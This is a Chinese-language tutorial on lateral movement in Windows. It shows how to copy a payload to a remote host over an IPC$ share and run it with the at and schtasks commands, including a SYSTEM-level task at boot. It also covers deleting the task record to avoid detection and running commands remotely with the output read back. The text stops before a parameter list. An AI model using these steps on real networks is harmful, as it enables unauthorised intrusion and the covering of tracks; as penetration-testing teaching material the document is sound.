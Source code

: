 at 是 Windows 自带的用于创建计划任务的命令，它主要工作在 Windows server 2008 之前版本的操作系统中。使用 at 命令在远程目标机器上创建计划任务的流程大致如下。

+ 使用 net time 命令确定远程机器当前的系统时间。
+ 使用 copy 命令将 payload 文件复制到远程目标机器中。
+ 使用 at 命令定时启动该 payload 文件。
+ 删除使用 at 命令创建计划任务的记录。

在使用 at 命令在远程机器上创建计划任务之前，需要使用 net use 命令建立 ipc$。实践：

(1)查看目标系统时间

```
net time \\192.168.78.128
```

[![gvTaS1.png](https://z3.ax1x.com/2021/05/24/gvTaS1.png)](https://imgtu.com/i/gvTaS1)

(2)将文件复制到目标系统中

首先，在本地创建一个 calc.bat 文件，其内容为 "@calc.exe"。然后，让 Windows 运行一个 "计算器" 程序，使用 Windows 自带的 copy 命令将一个文件复制到远程主机的 C 盘中：

```
copy calc.bat \\192.168.78.128\C$
```

(3)使用 at 创建计划任务

使用 net time 命令获取当前远程主机的系统时间。使用 at 命令让目标系统在指定时间 () 运行一个程序：

```
at \\192.168.78.128 22:20 C:\calc.bat
```

(4)清除 at 记录

计划任务不会随着它本身的执行而被删除，因此，网络管理员可以通过攻击者创建的计划任务获知网络遭受了攻击。

```
at \\192.168.78.128 id /delete
```

使用 at 远程执行命令后，先将执行结果写入本地文本文件，再使用 type 命令远程读取该文本文件：

```
at \\192.168.78.128 20:05 cmd.exe /C "ipconfig > C:/1.txt"

type \\192.168.78.128\C$\1.txt
```

##### 高版本中替代 at 的命令 schtasks 命令

Windows Vista、Windows server 2008 及之后版本的操作系统已经将 at 命令废弃了。使用 schtasks 命令代替。

在远程主机上创建一个名称为 test 的计划任务。该计划任务在开机时启动，启动程序为 D 盘下的 calc.bat，启动权限为 system：

```
schtasks /create /s 192.168.78.128 /tn test /sc onstart /tr d:\test\calc.bat /ru system /f
```

在使用 schtasks 命令时不需要输入密码，原因是之前已建立了 ipc$。如果没有建立 ipc$，可以在执行 schtasks 命令时添加 /u 和 /p 参数。schtasks 命令的参数列举如下：
